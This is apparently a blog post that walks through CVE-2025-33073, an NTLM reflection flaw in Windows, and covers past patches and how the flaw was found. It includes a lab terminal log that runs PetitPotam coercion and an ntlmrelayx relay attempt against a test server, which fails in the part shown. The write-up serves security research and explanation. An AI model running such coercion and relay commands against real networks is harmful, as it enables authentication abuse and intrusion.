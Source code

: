 ```yaml
--- 
title: CVE-2025-33073 Explained
description: >-
    A detailed walkthrough of CVE-2025-33073, exploring its discovery, exploitation, root cause, and mitigation strategies.
author: anorak
date: 2025-06-14 04:30:00 +0530
categories: [GUIDE, CYBERSECURITY]
tags: [Cybersecurity,Windows,CVE, Security]
pin: True
--- 
```

## Introduction

NTLM reflection is a special case of NTLM authentication relay in which the original authentication is relayed back to the machine from which the authentication originated. This class of vulnerability was publicly introduced via **MS08-68**, where Microsoft prevented SMB to SMB NTLM reflection. Over the years, other exploitation vectors were discovered and patched, such as:

- **HTTP to SMB reflection** (patched in MS09-13)
- **DCOM to DCOM reflection** (patched in MS15-076)

Nowadays, it is generally accepted that NTLM reflection attack vectors are fixed, but from time to time, researchers demonstrate that bypassing mitigations is just a matter of digging into what the mitigation actually does.

More recently, a tweet demonstrating that Kerberos reflection was not restricted sparked our interest and motivated us to dig more into authentication reflection.

 

## Vulnerability Discovery

As a baseline for our tests, let's see what happens when trying to relay an SMB authentication back to the same machine. Our test machine (**SRV1**) is an up-to-date Windows Server 2022, domain joined, with SMB signing not enforced:

```bash
$ PetitPotam.py -u loki -p loki -d ASGARD.LOCAL 192.168.56.3 SRV1.ASGARD.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

# ntlmrelayx.py -t SRV1.ASGARD.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.56.14, attacking target smb://SRV1.ASGARD.LOCAL
[-] Authenticating against smb://SRV1.ASGARD.LOCAL as ASGARD/SRV1$ FAILED
```

**PetitPotam** coerces a SYSTEM service (`lsass.exe`) into authenticating to a controlled machine, therefore a machine account authentication is received. As the authentication originates from the same machine, the relay fails.
